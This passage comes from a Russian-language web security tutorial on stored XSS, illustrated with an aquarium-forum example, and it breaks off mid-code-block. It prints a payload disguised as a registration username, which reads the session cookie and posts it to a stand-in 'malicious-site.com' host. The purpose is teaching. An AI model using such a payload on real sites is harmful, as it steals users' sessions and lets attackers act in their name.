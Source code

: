 При таком html браузер выполнит скрипт, который был вставлен и если бы мы передали в get параметр query что-то страшное, то смогли бы украсть какие-то данные пользователя, или сделать какие-то действия от лица пользователя(с использованием его авторизационных кук, например).

## Хранимый XSS

Хранимый вид XSS очень похож по принципу действия на отражённый XSS. Разница лишь в том, что хранимый XSS происходит, когда один пользователь вводит зловредные данные, которые сохраняются на сервере и оттуда попадают на страницу другого пользователя.

![схема хранимого XSS](../img/image2.png)

Рассмотрим ещё один пример и разберёмся, как выглядит внедрение XSS изнутри. Представим, что вы разрабатываете какой-нибудь форум любителей аквариумных рыбок. Пусть схематично его разметка выглядит так:

```html
<h1>Здравствуйте, <span class="username">Обычный Пользователь</span>!</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
    </footer>
</article>
```

Простая разметка — ничего необычного. Один из пользователей, который создал эту тему для обсуждения выбрал при регистрации необычное имя. Вот такое:

```
Другой пользователь</span><script>const username=document.querySelector('.username').textContent;const sessionCookie=document.cookie.match(/session-token=([^;$]+)/)[1];fetch('http:/www.malicious-site.com',{method: 'post',body:JSON.stringify({username,sessionCookie})});</script>
```

Что произойдёт, если другой участник обсуждения просмотрит эту тему? Разметка страницы начнёт выглядеть следующим образом (отформатировано для читабельности):

```html
<h1>Здравствуйте, <span class="username">Обычный Пользователь</span>!</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
        <script>
            const username = document.querySelector(`.username`).textContent;
            const sessionCookie = document.cookie.match(/session-token=([^;$]+)/)[1];
```